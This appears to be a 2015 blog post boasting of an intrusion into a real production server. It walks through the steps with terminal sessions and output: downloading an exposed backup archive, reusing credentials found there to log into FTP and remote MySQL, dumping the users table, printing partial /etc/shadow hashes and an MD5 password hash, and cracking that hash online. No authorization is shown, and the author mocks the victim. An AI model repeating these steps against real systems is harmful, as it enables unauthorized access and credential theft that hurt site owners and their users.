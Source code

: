 ```yaml
---
layout: post
title: Human Stupidity...NOT A VM
tags:
- challenge
- hack
- human
- not a vm
- pwned
- real
- stupidity
---
```

Hey everyone so this is the story of how i hacked into a server. this is not a vm, it was an actual server and i wont be giving much infos cause i dont want to expose the target to attacks.
so lets say the name of the server i hacked into was www.stupid.com and the ip was 111.111.111.111. 
of course i started as always with nikto to get some vulnerabillities...they were interesting but something else was more important at a first glance!
there was a .zip file called stupid.com.zip so i figured this must be a backup file so i downloaded and it indeed was a backup file... ;)  */Human stupidity number 1 /*
so after i extracted it this is what we got

[![rh1](https://trickster0.files.wordpress.com/2015/10/rh1.png)](https://trickster0.files.wordpress.com/2015/10/rh1.png)
after checking a few files i checked the sftp-config.json file to check for possible passwords and this is what we actually got

[![rh2](https://trickster0.files.wordpress.com/2015/10/rh2.png)](https://trickster0.files.wordpress.com/2015/10/rh2.png)
i know that you cant see the password but trust me it was quite good so good job there :P 
anyway i found after a while an admin login page in the newcms folder path but unfortunately the pass and username didnt work there although by checking the admin php code i noticed that for the user's session to be created it needs to read some files in the var folder but there were no files like them in the backup file good job again at this point. 

[![rh3](https://trickster0.files.wordpress.com/2015/10/rh3.png)](https://trickster0.files.wordpress.com/2015/10/rh3.png)
so i had to find another way so
ofc after finding out that tftp on port 22 might be running i scanned with nmap but it was closed too bad :/ although the ftp was open so i thought lets try it out and use the same password and username    */Human stupidity number 2/*>root@kali:~# ftp 111.111.111.111
Connected to 111.111.111.111.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 1 of 50 allowed.
220-Local time is now 01:43. Server port: 21.
220-This is a private system - No anonymous login
220-IPv6 connections are also welcome on this server.
220 You will be disconnected after 15 minutes of inactivity.
Name (111.111.111.111:root): stupid
331 User stupid OK. Password required
Password:
230 OK. Current restricted directory is /
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>


i wont be showing what i got in there but i went after the mysql file that i found out earlier! the var directory and the rest of the mysql db files were all there!!!
i checked the mysql.php file and check this out


>define('dbase','dbase');
define('host','host');
define('user','user');
define('password','password');
define('port','port');

$server[dbase]="stupid_site";
$server[host]="localhost";
$server[user]="stupid_site";
$server[password]="a8XXXXXXX";
$server[port]="3306";


more
i found the /etc/shadow and the /etc/passwd files too but lets not worry about that for now
/etc/shadow


>stupid1:$6$MTkxu6xGhH2lRj5D$ucH
stupid2:$6$tZPS9ALNEVkT1xMP$pLDkCjwJv622L0mH28liD
stupid3:$6$uc/QjiYI.uaw2xa1$uFoTlZxxVwrr2Msd82FtO
stupid4:$6$KJ0dPziRX8lVkTq4$CIi7j3Vm9jLOz2IXelpC3
stupid5:$6$Bk95YCxxhBuLKnSK$Jyq2RmFq12vJyu57m7FgO
stupid6:$6$ow82ApgjPeO5Xf14$ly242LU95a5xtCvh82zEh
stupid7:$6$3UdXUAEkctoPc17x$YlL4x1eIuCSFc/QbLaMev
stupid8:$6$K56LoyADGjYB3HKx$RVAJbzs1vF5Lk8JGZ4gIP
stupid9:$6$yyKMgLzqUXdgtbjJ$eky/XN4XaLHW.I8Y4iFOP


although i didnt try to crack the passwords cause it would take time i tried to figure out the login password for the admin panel!
i couldnt do much from the ftp so i went into mysql enumeration and the fun started!
so i scanned the mysql port to check if it is open...

[![rh6](https://trickster0.files.wordpress.com/2015/10/rh6.png)](https://trickster0.files.wordpress.com/2015/10/rh6.png)


>root@kali:~# mysql -h 111.111.111.111 -u stupid_site -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 259496
Server version: 5.5.45-cll MySQL Community Server (GPL)

Copyright (c) 2000, 2015, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| stupid_site      |
+--------------------+
2 rows in set (0.10 sec)

mysql>  use stupid_site;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql>  show tables;
+-------------------------+
| Tables_in_stupid_site |
+-------------------------+
| activity                |
| articles                |
| categories              |
| cmsmenu_new             |
| cmsrights               |
| deletedemails           |
| downloads               |
| emails                  |
| faq                     |
| guestbook               |
| languages               |
| links                   |
| mailqueue               |
| menu                    |
| menus                   |
| newsletter_articles     |
| newsletter_teaming      |
| newsletter_teams        |
| newsletters             |
| packaging               |
| pictures                |
| pictures_cropings       |
| pictures_types          |
| relations               |
| sitecategories          |
| subcategories           |
| users                   |
| variables               |
| youtube                 |
+-------------------------+
29 rows in set (0.09 sec)

mysql> mysql> select id,email,username,password,usertype from users;
+-------+-----------------------+----------+--------------------------+
| id | email              | username |password                        |
+-------+-----------------+----------+--------------------------------+
| 114| stupid@stupid.com  | stupid   |e10adc3949ba59abbe56e057f20f883e|
+-------+-----------------+----------+--------------------------------+
1 row in set (0.09 sec)

mysql>


the first thing i tried was looking for the hash online aaaaaaaaaand */Human stupidity number 3/*

[![rh4](https://trickster0.files.wordpress.com/2015/10/rh4.png)](https://trickster0.files.wordpress.com/2015/10/rh4.png)


**#FAIL**


**AND........BOOM**



[![rh5](https://trickster0.files.wordpress.com/2015/10/rh5.png)](https://trickster0.files.wordpress.com/2015/10/rh5.png)

so that is pretty much it i didnt get root access because mysql didnt run as root and didnt find another way although all of this was a real pentest and the whole thing pretty much happened was of human stupidity and ignorance! although it was a good lesson and practise for me. Of course i did no harm and i had no evil intentions!! so that is it until my next challenge ;)
ps: excuse my photoshop skills :P
